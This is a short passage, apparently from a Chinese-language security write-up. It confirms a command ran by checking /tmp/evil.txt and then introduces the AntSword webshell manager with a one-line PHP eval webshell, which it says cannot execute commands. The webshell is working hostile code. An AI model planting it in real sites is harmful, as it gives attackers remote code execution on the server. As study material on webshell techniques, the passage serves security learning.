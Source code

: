 [![](assets/1708920000-37ee17d2857a5a859f2c3296e73b7d54.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214131235673.png)

查看/tmp/evil.txt 发现命令已被执行

[![](assets/1708920000-6f312595e4dd62cc08765a4b3a7ac098.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214122810820.png)

#### Antsword

为了追求简洁，我们以一个 webshell 作为序章

```plain
<?php
@eval($_REQUEST[1]);
?>
```

通过蚁剑连接 发现 shell 无法执行命令
